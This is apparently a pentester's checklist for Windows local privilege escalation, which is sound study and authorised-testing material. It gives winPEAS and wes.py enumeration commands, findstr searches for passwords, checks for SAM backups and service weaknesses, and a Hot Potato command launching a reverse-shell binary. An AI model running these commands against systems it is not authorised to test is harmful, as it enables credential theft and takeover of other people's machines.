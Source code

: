 # Checklist - Local Windows Privilege Escalation
***
##  Kernel Exploits

* [ ] [[windows-hardening/windows-local-privilege-escalation/README#^01782b|Kernel Exploits]] - `python wes.py systeminfo.txt -i 'Elevation of Privilege' --exploits-only | less`
***
## Services
 -  `.\winPEASany.exe quiet servicesinfo`
   
* [ ] [[windows-hardening/windows-local-privilege-escalation/README#^f3a293|Insecure Service Properties]] 
* [ ] [[windows-hardening/windows-local-privilege-escalation/README#^184214|Unquoted Service Path]] 
* [ ] [[windows-hardening/windows-local-privilege-escalation/README#^bcb515|Services registry modify permissions]]
* [ ] [[windows-hardening/windows-local-privilege-escalation/README#^e9c31e| Services binaries weak permissions]]
* [ ] [[windows-hardening/windows-local-privilege-escalation/README#^daff90|PATH DLL Hijacking]]
***
## Registry

* [ ] [[windows-hardening/windows-local-privilege-escalation/README#^9c74f8|Run at startup]] - `.\winPEASany.exe quiet applicationsinfo`
* [ ] [[windows-hardening/windows-local-privilege-escalation/README#^ccc4be|AlwaysInstallElevated]] - `.\winPEASany.exe quiet windowscreds`
***

## Passwords

* [ ] [[windows-hardening/windows-local-privilege-escalation/README#^39c818|Searching the Registry for Passwords]] 
- `.\winPEASany.exe quiet filesinfo userinfo`
* [ ]  [[windows-hardening/windows-local-privilege-escalation/README#^a378c5|Saved Creds]] - `winPEASany.exe quiet cmd windowscreds`
* [ ] [[windows-hardening/windows-local-privilege-escalation/README#**Generic Password search in files and Configuration Files**|Generic Password search in files and Configuration Files]] 
- `.\winPEASany.exe quiet cmd searchfast filesinfo`
- `dir /s *pass* == *.config`
- `findstr /si password *.xml *.ini *.txt`
* [ ] [[windows-hardening/windows-local-privilege-escalation/README#^eea1bf|SAM & SYSTEM backups]] - `.\winPEASany.exe quiet filesinfo`
***
* [ ] [[privilege-escalation-with-autorun-binaries#^bf7821|Scheduled Tasks]] - `schtasks /query /fo LIST /v`
***
* [ ]  [[windows-hardening/windows-local-privilege-escalation/README#^2987ff| Insecure GUI Apps]] 
-`1.open shortcut or gui app.exe`
-`tasklist /V | findstr app.exe`
***
* [ ] [[privilege-escalation-with-autorun-binaries#^c48dcd|Startup Apps]] 
* `.\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"`
***
* [ ] [[windows-hardening/windows-local-privilege-escalation/README#^65e359|Exploit Installed Applications]] - `.\winPEASany.exe quiet procesinfo`
***
## Token Impersonation
###  Potatoes
* [ ] [[Hot Potato|Hot potato]] 
* `.\potato.exe -ip <local ip> -cmd "C:\PrivEsc\reverse.exe" -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true`
* [ ] 